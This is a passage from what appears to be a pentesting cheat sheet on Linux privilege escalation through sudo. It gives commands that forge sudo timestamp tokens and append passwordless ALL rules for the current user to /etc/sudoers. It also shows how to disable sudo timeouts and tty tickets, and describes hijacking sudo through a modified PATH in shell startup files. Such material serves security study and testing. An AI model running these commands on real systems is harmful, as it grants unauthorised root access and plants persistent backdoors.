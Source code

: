 If you have write permissions in the folder or on any of the created files inside the folder you can use the binary  to create a sudo token for a user and PID.
For example, if you can overwrite the file /var/run/sudo/ts/sampleuser and you have a shell as that user with PID 1234, you can obtain sudo privileges without needing to know the password doing:

```
./write_sudo_token 1234 > /var/run/sudo/ts/sampleuser
```

### /etc/sudoers, /etc/sudoers.d

The file `/etc/sudoers` and the files inside `/etc/sudoers.d` configure who can use `sudo` and how. These files by default can only be read by user root and group root.
If you can read this file you could be able to obtain some interesting information, and if you can write any file you will be able to escalate privileges.

```
ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
```

If you can write you can abuse this permission

```
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

Another way to abuse these permissions:

```
# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
```

### DOAS

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```
permit nopass demo as root cmd vim
```

### Sudo Hijacking

If you know that a user usually connects to a machine and uses `sudo` to escalate privileges and you got a shell within that user context, you can create a new sudo executable that will execute your code as root and then the user's command. Then, modify the $PATH of the user context (for example adding the new path in .bash_profile) so when the user executes sudo, your sudo executable is executed.

Note that if the user uses a different shell (not bash) you will need to modify other files to add the new path. For example modifies `~/.bashrc`, `~/.zshrc`, `~/.bash_profile`. You can find another example in 
